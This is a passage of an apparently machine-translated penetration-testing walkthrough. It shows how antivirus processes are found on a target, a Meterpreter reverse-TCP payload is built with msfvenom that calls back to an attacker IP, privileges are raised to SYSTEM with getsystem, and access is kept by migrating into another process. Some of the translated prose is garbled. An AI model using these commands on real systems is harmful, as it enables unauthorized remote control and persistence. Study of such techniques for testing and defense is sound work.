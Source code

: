 Check the running process and find that the `360` family bucket and guard god exist.

![](./images/6.png)

Here we use `360` to launch the MSF` `360` to become a simple `MSF` horse, and then do the `getsystem` on this basis. After the `getsystem` is launched, we will directly raise the authority to `NT AUTHORITY\SYSTEM`.

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.206 lport=5555 -f exe -o h3.exe
```

![](./images/7.png)

The process is migrated and persisted to maintain permissions.

```powershell
# View the process running in the target device
ps
# Check the current process ID
getpid
# Bind the target process ID
migrate ID
```

![](./images/8.png)
